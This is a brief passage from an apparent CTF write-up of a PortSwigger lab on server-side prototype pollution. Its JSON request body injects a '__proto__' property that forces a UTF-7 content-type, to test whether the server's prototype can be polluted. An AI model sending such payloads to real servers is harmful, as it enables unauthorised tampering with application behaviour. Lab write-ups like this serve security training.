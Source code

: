 ![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Prototype-Pollution/Prototype-7/images/Pasted%20image%2020230222172513.png)

#### Try to pollute the prototype with a `content-type` property that explicitly specifies the UTF-7 character set

```json
{
    "address_line_1":"Wiener HQ",
    "address_line_2":"One Wiener Way",
    "city":"Wienerville",
    "postcode":"BU1 1RP",
    "country":"+AGYAbwBv-",
    "sessionId":"LVZ7jbWv3Msehakz2Pvdsg1trqHFnLH8",
    "__proto__": {
        "content-type": "application/json; charset=utf-7"
    }
}
```
